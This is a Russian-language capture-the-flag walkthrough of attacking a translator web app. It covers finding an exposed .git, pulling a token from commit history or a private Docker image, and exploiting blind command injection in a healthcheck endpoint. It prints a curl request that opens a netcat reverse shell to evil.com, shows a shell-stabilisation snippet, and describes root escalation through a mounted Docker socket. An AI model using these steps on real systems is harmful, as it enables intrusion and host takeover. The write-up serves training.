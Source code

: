 # Прохождение таска

## 1. Заходим на сайт, видим приложеньку переводчик

![plot](./screens/web-app.png)

## 2. Сканирование

dirb`ом находим эндпоинт /translate,  но он ничего не делает после долгих попыток фаззить на уязвимости

![plot](./screens/dirs.png)

## 3. Сбор утечки в миссконфигурации
Увидели .git в папке, дергаем его git-dumper утилитой сдампили весь git репозиторй, затем открываем либо в IDE,

![plot](./screens/git-find.png)

## 4. Изучение кода из утечки белым ящиком

Открываем папку и видим файлы репы: файлы deploy.sh, Dockerfile, папку app с сорцами приложения (где находим закрытый эндопоинт  /api/helthcheck где будет OS Command injection в функцию os.system(), но она за авторизацией через токен, который берется из энвов приложения, все секурно;)

![plot](./screens/app-src.png)

Находим в директории app  файл app.py и изучаем исходные коды приложения, после чего наталкиваемся на неизвестный эндпоинт. Наблюдаем, что принимаются только POST запросы и это эндпоинт хелсчека (команды проверки активности сервера), в котором есть Blind OS Injection, по скольку os.system() в отличии от subprocess не отдает вывод команды. Но, для того, чтобы передать команду в параметр status необходимо включить в POST-запрос еще и некий авторизационный токен, который разрешит отправить команду ОС. 
И здесь будет разветвление таска на 2 вектора:
1) простой — просто смотрим коммиты командой git log, делаем ресет на самый первый коммит и смотрим дифф изменения, и оттуда вытаскиваем захардкоженный токен. Этип способом решили все команды.
2) средний — в этом векторе мы после тщетных попыток найти токен из .env файла, так как в docker-compose.yml на самом деле видно, что есть некий файл .env, но здесь его в исходниках нет. Мы находим некий файл deploy.sh в корне приложения.

![plot](./screens/deploy-script.png)

И в этом векторе будет классическая атака на цепочку поставок (привет мой доклад, кто не видел вот ссылка https://t.me/TrickOrThreats/26  )

Нам необходимо подключить секрет (докер-токен) для авторизации в DockerHub и вытащить готовое приложение из приватного реестра образов. По сути, достаточно только запустить этот скрипт у себя, с установленным докером с правами sudo.

## 5. Получение шелла

![plot](./screens/leak-envs.png)

Получаем .env файл из спуленного контейнера с переменной, которая импортируется в скрипте app.py из переменных окружения TOKEN. А дальше подставляем его в запрос на реверс шелл. Здесь можно столкнуться с типичной проблемой, когда можно подумать, что reverse shell не работает, однако всего лишь навсего необходимо всегда использовать /bin/sh вместо /bin/bash, так как например в целевом контейнере, он на alpine linux, нет bash, более того, еще и нет curl, однако это не проблема, есть wget. Реверс  шелл можно сделать с помощью скачивания через wget скрипта с шеллом, назначением ему прав командой chmod +x shell.sh и исполнение. Однако, там есть проще вариант, там был netcat с ключом -e который позволит сразу получить реверс шелл.

```sh
curl -X POST -d 'status=nc+evil.com+1337+-e+/bin/sh&token=4f47ed71258da0145661731b871d7440d45c122716666ec95c72003e20e1df96' http://91.186.197.236/api/helthcheck
```

![plot](./screens/revshell.png)

Получаем шелл и осматриваемся. Можно сразу посмотреть первые команды + запустить linPEAS.sh, а так же исполнить команду df -h на наличие смонтированных дисков или папок.
И действительно, можно заметить, что здесь смонтирован docker-сокет, что говорит о том, что нам будет просто повысить привилегии посредством техники запуска нового контейнера и монтирование файловой системы (полностью весь /) вовнутрь запущенного контейнера, что позволить получить доступ к хосту. А для начала надо либо поставить curl или wget`ом запускаем команду на создание контейнера, ну или для особо ленивых, качаем docker-клиент скомпилированный в 1 бинарник и запускаем контейнер по технике, описанной выше.

![plot](./screens/privesc-find.png)

Далее для удобства делаем стабилизированный шелл

```sh

python3 -c "import pty;pty.spawn('/bin/sh')"
CTRL + Z
stty raw -echo;fg
Enter enter
```

переходим в /tmp директорию для гарантии, что мы можем туда записывать и выкачиваем docker-клиент на машину

![plot](./screens/docker-download.png)

и видим существующие образы, на основе которых мы можем запустить контейнеры, но мы пойдем дальше и просто спуллим контейнер такой, который нам по душе.

![plot](./screens/dist-pull.png)

А потом запустим наше повышение привилегий

![plot](./screens/privesc.png)

И мы запывнили систему.
